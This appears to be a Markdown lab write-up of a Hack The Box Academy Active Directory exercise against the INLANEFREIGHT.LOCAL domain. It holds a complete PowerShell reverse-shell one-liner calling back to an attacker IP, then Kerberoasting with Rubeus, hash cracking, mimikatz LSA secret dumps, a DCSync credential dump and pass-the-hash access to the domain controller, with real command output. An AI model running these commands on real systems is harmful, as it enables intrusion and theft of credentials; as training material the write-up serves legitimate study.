

# Notes

## Rev Shell

Got rev shell from the webshell with the following:

**from webshell**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.65',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

**on attack host**
```bash
rlwrap nc -lnvp 4444
```


## Enum of init foothold


```
PS C:\windows\system32\inetsrv> whoami /all                                                                                                                                     08:40 [1/61]

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                           Attributes
====================================== ================ ============================================================= ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384
Everyone                               Well-known group S-1-1-0                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                      Alias            S-1-5-32-568                                                  Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                       Mandatory group, Enabled by default, Enabled group
IIS APPPOOL\DefaultAppPool             Well-known group S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                 Alias            S-1-5-32-544                                                  Enabled by default, Enabled group, Group owner


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeTcbPrivilege                Act as part of the operating system       Enabled
SeBackupPrivilege             Back up files and directories             Disabled
SeRestorePrivilege            Restore files and directories             Disabled
SeDebugPrivilege              Debug programs                            Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```
PS C:\windows\system32\inetsrv> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : WEB-WIN01
   Primary Dns Suffix  . . . . . . . : INLANEFREIGHT.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : INLANEFREIGHT.LOCAL
                                       htb

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter #2
   Physical Address. . . . . . . . . : 00-50-56-8A-61-98
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4138:823a:5ad8:a7f7%7(Preferred)
   IPv4 Address. . . . . . . . . . . : 172.16.6.100(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.6.1
   DHCPv6 IAID . . . . . . . . . . . : 167792726
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-31-80-5D-35-00-50-56-8A-0B-6D
   DNS Servers . . . . . . . . . . . : 172.16.6.3
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-8A-0B-6D
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::e6(Preferred)
   Lease Obtained. . . . . . . . . . : Sunday, April 26, 2026 4:50:54 PM
   Lease Expires . . . . . . . . . . : Sunday, April 26, 2026 6:20:54 PM
   IPv6 Address. . . . . . . . . . . : dead:beef::38b7:cb45:964e:2319(Preferred)
   Link-local IPv6 Address . . . . . : fe80::38b7:cb45:964e:2319%3(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.129.81.83(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Sunday, April 26, 2026 4:50:57 PM
   Lease Expires . . . . . . . . . . : Sunday, April 26, 2026 6:20:54 PM
   Default Gateway . . . . . . . . . : fe80::250:56ff:fe8a:f92c%3
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-31-80-5D-35-00-50-56-8A-0B-6D
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb
```

```
PS C:\windows\system32\inetsrv> nltest /dsgetdc:INLANEFREIGHT
           DC: \\DC01
      Address: \\172.16.6.3
     Dom Guid: a9fc86ba-4427-40cd-839b-0efb14e07318
     Dom Name: INLANEFREIGHT
  Forest Name: INLANEFREIGHT.LOCAL
 Dc Site Name: Default-First-Site-Name
Our Site Name: Default-First-Site-Name
        Flags: PDC GC DS LDAP KDC TIMESERV GTIMESERV WRITABLE DNS_FOREST CLOSE_SITE FULL_SECRET WS DS_8 DS_9 DS_10
The command completed successfully
```

Got flag from Administrator's desktop

```
PS C:\windows\system32\inetsrv> type c:\Users\Administrator\Desktop\flag.txt
JusT_g3tt1ng_st@rt3d!
```

```
PS C:\windows\system32\inetsrv> setspn -T INLANEFREIGHT.LOCAL -F -Q MSSQLSvc/SQL01.inlanefreight.local:1433

Checking forest DC=INLANEFREIGHT,DC=LOCAL
CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SQL01.inlanefreight.local:1433

Existing SPN found!
```

Got the ticket for `svc_sql` via Rubeus

```
PS C:\Windows\Temp> ./Rubeus kerberoast /user:svc_sql /outfile:C:\Windows\Temp\svc_sql.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : svc_sql
[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 1


[*] SamAccountName         : svc_sql
[*] DistinguishedName      : CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : MSSQLSvc/SQL01.inlanefreight.local:1433
[*] PwdLastSet             : 3/30/2022 9:14:52 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Windows\Temp\svc_sql.txt

[*] Roasted hashes written to : C:\Windows\Temp\svc_sql.txt
```

Cracked the hash using hashcat and rockyou.txt wordlist.

```
┌──(openclaw㉿srv1405873)-[~/.openclaw/workspace-neo/htb/academy/ad-enumeration-attacks/raw_data]
└─$ hashcat -m 13100 svc_sql.txt --show
$krb5tgs$23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local:1433*$4c5d80433fc5f826472998de7118bf03$362cd9392c86c007e54cbfa95724f11b671752c39f200e3ffe2b6a2749f8f24e0884da4c11d65e77e6e19e20e014107a4c06b7dc96ceec4af27d782ceaf34cf16e285b3d66f5788768b4dffcd263d7ecd61a6654f8f03b6e17270964ae2d64f4066df5a842ad7bc14a45dbaa469395df60909e56e56a940e395f6649f5bf08973a9ec2f8caccb1b5875c13a4d8c499439701a726a1d93dabcaebb0ffa7ab363f591f3fa04903241b1b9f73706d011049a5d88fe5a58754e668367d7b258ef451e7c752133db386c4d96802970414c70a353b4bcfa9c64b46a727113c10188c3b153ea6940b122a13f26e8a8a633b59a590b7f87861b4db0e5991fcb5caf532f3bae8d5563a15989c584c51871010223a49dda450f2698de8139fe719ea5d3882ade91c325a4e0a88fc20ff0b5bc51a5fad5e3cfb1e8779dae806276d6f2466c29480c0d9defa9dba1fe2ddf3f9834bc9c68bc9f0e428d939577fe0c18fac69c57b7fa216a8587ec2c69ee8e4315f1451400cf13122c030ba3124bb2baca350f301e79b9d13336baa9a959e177a7eedef2d6eacbf917ee29e412f253d4e717a0fbc0d6cac32e955719a444b5bad6564cbe26567b2722e07aacbae32e67b9ae6a6aedd949c7d06cb292956ae8884b126db7055320317b5dc5f5063ad087b5ef47204a24a8f9edde13e736d91d90a9f5d094165e9019e311cb98e6794faca70d287c54ab0f680f1effe782225361345f442f015adfc9476b3e5d94b1797692db056daca4e4c19e9be2785bc1c8de8d1413cf9defe1b40d01525ca2be89b3183c419445257b73abfa2ec1f1a8d028c9c09dd6358384c53c2d429a49081371df572b1853c55b56dd5a341b2d3d221a1a126e8a34817a8121ddf31853dd7dc57be9baae00c035fefb879770f52bd93365add010f52632a70d9ea3f5110967f01f7c1b179abc466f8a5b4b0c9aba6490563dc59b87de87efbe4d80153b2cf51ccd057c450fe3f83032c1a7a70754693f5d18e8b932acef474186ce497a52413604896d7adaca54206dcb5cb56192058f3ee0ee0c7422f2f2cae08ca7f04f4d39b59d306f323dc4eaf1431b2aea5b0d47023eadf414c4c95d1b4ee9b86ca4a31b9386f8a168fc6b467364e8e2a6d10c2f6593331efa9f4cc26ee17be4d4d8f1f97a0cb863240d886ef4b389976d9d3610bc36acb635c36a258e670a23842b86ef9dda3291ed6e77714e7e9a0291de2e8d225c1cc739a80ee0a5b039dfc6fdd97e639cb4c7a1ea790549e2b9aeaf3e76489f1b6eb82043177669b03b1fd342050be494cce161a76b2a5d6e4aacef74b04b1efbbeff5fc701527142072617a59d58f9ca790e1370335e2e010897d47b5eba1ab0f3a4f518c1bfd1f4ff9e1145c25ca6d468cf4316d86435f79ed6e22d270b8943879c4a0ba3e52bbf8cd0a9cba84598d4255169d12876237d446a27eb407b51be23eca7692f5446398175940d231ee0d423cdd0fc7cbe821d36d5294420a8feb137dfebfcfc761955026:lucky7
```

Find `MS01`

```
PS C:\Windows\Temp> nslookup MS01.inlanefreight.local
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  172.16.6.3

Name:    MS01.inlanefreight.local
Address:  172.16.6.50
```

Setup tunnel via ligolo. Tested that `MS01` ip is reachable from attack host.

```
└─$ ping 172.16.6.50
PING 172.16.6.50 (172.16.6.50) 56(84) bytes of data.
64 bytes from 172.16.6.50: icmp_seq=1 ttl=64 time=196 ms
64 bytes from 172.16.6.50: icmp_seq=2 ttl=64 time=194 ms
```

RDP into 172.16.6.50 as `svc_sql` 



## MS01 Enum (172.16.6.50)

**Got flag.txt**

```powershell
c:\Users\Administrator\Desktop>type flag.txt
spn$_r0ast1ng_on_@n_0p3n_f1re
c:\Users\Administrator\Desktop>
```

```
c:\Users\Administrator\Desktop>ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : MS01
   Primary Dns Suffix  . . . . . . . : INLANEFREIGHT.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : INLANEFREIGHT.LOCAL

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-8A-3A-D6
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::6177:a257:52b2:aa6b%4(Preferred)
   IPv4 Address. . . . . . . . . . . : 172.16.6.50(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.6.1
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-31-80-5D-43-00-50-56-8A-3A-D6
   DNS Servers . . . . . . . . . . . : 172.16.6.3
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

```cmd
c:\Users\Administrator\Desktop>whoami /all

USER INFORMATION
----------------

User Name             SID
===================== ==============================================
inlanefreight\svc_sql S-1-5-21-2270287766-1317258649-2146029398-4608


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

No stored creds

```
C:\Windows\system32>cmdkey /list

Currently stored credentials:

* NONE *
```

Did [mimikatz dump](./mimikatz_dump_ms01.txt) of MS01 and found the following:

`tpetty` with `NTLM` hash: fd37b6fec5704cadabb319cebf9e3a3a

Got files and dirs under `tpetty`: see [here](./tpetty_files.txt).

Tried to find creds:

```
C:\Windows\system32>powershell -c "Get-ChildItem C:\Users -Recurse -Include *.txt,*.xml,*.ini,*.ps1,*.bat,*.vbs -ErrorAction SilentlyContinue | Select-String -Pattern 'password|passwd|pwd|cred' -ErrorAction SilentlyContinue | Select-Object Path,Line"

No results
```

Got scheduled tasks via `schtasks /query /fo LIST /v | findstr "TaskName Run As User"`

see results here: [scheduled_tasks](./scheduled_task.txt)

Autologon check:

```
C:\Windows\system32>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /s 2>nul | findstr "DefaultUserName DefaultPassword DefaultDomainName AutoAdminLogon"
    AutoAdminLogon    REG_DWORD    0x1
    DefaultDomainName    REG_SZ    INLANEFREIGHT
    DefaultUserName    REG_SZ    tpetty
```

Check `tpetty` group membership

```
C:\Windows\system32>powershell -c "([adsisearcher]'(samaccountname=tpetty)').FindOne().Properties.memberof"

C:\Windows\system32>
```

Dumped lsa and secrets via mimikatz

```
mimikatz # lsadump::secrets
Domain : MS01
SysKey : 9521a9e7c65245ab8cdd792e7f6d20df

Local name : MS01 ( S-1-5-21-2240111961-1403977016-2242853117 )
Domain name : INLANEFREIGHT ( S-1-5-21-2270287766-1317258649-2146029398 )
Domain FQDN : INLANEFREIGHT.LOCAL

Policy subsystem is : 1.18
LSA Key(s) : 1, default {2cc06243-6b76-c52d-7226-e7c672fb703d}
  [00] {2cc06243-6b76-c52d-7226-e7c672fb703d} 05281fef7a5260818ceaf3b4ec1ed8fdb46fe7aabc8ff4529e0a99036608d6e0

Secret  : $MACHINE.ACC
cur/hex : 47 bb bc b5 d7 f8 cd ca b4 40 b9 a3 8c 71 0b c6 3e 4c b5 e2 e2 0b 70 05 3c 73 dd ed df bb 68 3b ce 71 97 c3 21 43 52 29 83 3b c5 1b 4f f5 58 9a 7f d2 2f a8 87 d9 03 61 fe 18 8d 28 b0 32 8b 55 4b 8d 42 34 34 cc bb c6 0e a4 ea ff 01 a2 56 05 7e 6a dd dc 4b bb b8 35 b4 67 d5 55 89 2f a7 91 93 03 c2 04 05 ed a6 e8 dd 9b 57 f4 03 56 7f 9b 5b e5 d0 34 00 36 01 68 2e 0d c1 a6 e9 37 86 9d c5 5e 58 e6 f4 34 d3 f7 8f 34 81 23 83 d4 2c e5 00 d9 ce 24 a1 f7 5d b5 ad b0 e3 35 1e ee ad 98 30 7f 49 c0 42 e9 e7 63 ed 29 6e b7 83 2b e0 21 5b 2b 67 ff 40 dd e4 d8 75 03 2c fc a0 1a e1 19 b5 af 1a b8 be 21 51 70 a7 cf f8 51 e8 e0 5a 85 c7 ce 40 57 de cd 20 09 13 f7 89 15 2a 34 13 0f b2 7f 42 89 49 c7 46 b2 e3 a3 d1 7a 74 b8 eb dc
    NTLM:4d57d378850625d1231a7a8577dbf650
    SHA1:393a7c10414ceeadbbf4cbc0c2c313335d7e8ed0
old/text: ^kF)nFYj_k Qd64RbS@&)(hnL0@xi=!Q]tQ\jdNFxroquWa@CdTv\Xr^rk;GXzr$mHFL5`P*;5dD]u6Nc_95IT\1jN0MgOJk"@(7jH1u4?3EY_7o8b5-fcL=
    NTLM:ecfe27900016073fffef1bb4b2132bb2
    SHA1:678b71f548a76f72cc3d2058121cf71ae896c310

Secret  : DefaultPassword
cur/text: Sup3rS3cur3D0m@inU2eR

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 8d be 84 2a 73 52 00 0b e0 8e f8 0e 32 bb 35 60 9e 7d 17 86 b2 0d 19 9f 3d 95 3f 79 77 a6 36 3a 69 a9 fe 21 d9 7e cd 19
    full: 8dbe842a7352000be08ef80e32bb35609e7d1786b20d199f3d953f7977a6363a69a9fe21d97ecd19
    m/u : 8dbe842a7352000be08ef80e32bb35609e7d1786 / b20d199f3d953f7977a6363a69a9fe21d97ecd19
old/hex : 01 00 00 00 51 9c 86 b4 cb dc 97 8b 35 9b c0 39 17 34 16 62 31 98 c1 07 ce 7d 9f 94 fc e7 2c d9 59 8a c6 07 10 78 7c 0d 9a 56 ce 0b
    full: 519c86b4cbdc978b359bc039173416623198c107ce7d9f94fce72cd9598ac60710787c0d9a56ce0b
    m/u : 519c86b4cbdc978b359bc039173416623198c107 / ce7d9f94fce72cd9598ac60710787c0d9a56ce0b

Secret  : NL$KM
cur/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
old/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
```

```
C:\Windows\system32>net user tpetty /domain
The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

User name                    tpetty
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/30/2022 4:14:47 AM
Password expires             Never
Password changeable          3/31/2022 4:14:47 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   4/26/2026 6:51:47 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

Got Administrator Hash for DC01. 

```
Got the admin hash.

```
└─$ impacket-secretsdump INLANEFREIGHT/tpetty:Sup3rS3cur3D0m@inU2eR@172.16.6.3 | tee impacket-secretsdump.log
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6dbd63f4a0e7c8b221d61f265c4a08a7:::
```

Couldn't crack admin hash.

```
Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 27dedb1dab4d8545c6e1c66fba077da0
Time.Started.....: Mon Apr 27 11:02:42 2026 (5 secs)
Time.Estimated...: Mon Apr 27 11:02:47 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  3358.5 kH/s (0.24ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...:  kristenanne -> $HEX[042a0337c2a156616d6f732103]

Started: Mon Apr 27 11:02:28 2026
Stopped: Mon Apr 27 11:02:48 2026
```

Got the flag via wmiexec PtH

```
└─$ impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0 Administrator@172.16.6.3
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is DA7F-3F25

 Directory of C:\

09/15/2018  12:12 AM    <DIR>          PerfLogs
04/11/2022  05:54 PM    <DIR>          Program Files
09/15/2018  12:21 AM    <DIR>          Program Files (x86)
03/30/2022  01:50 AM    <DIR>          Users
04/26/2026  08:02 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  33,599,348,736 bytes free

C:\>type C:\Users\Administrator\Desktop\flag.txt

r3plicat1on_m@st3r!
```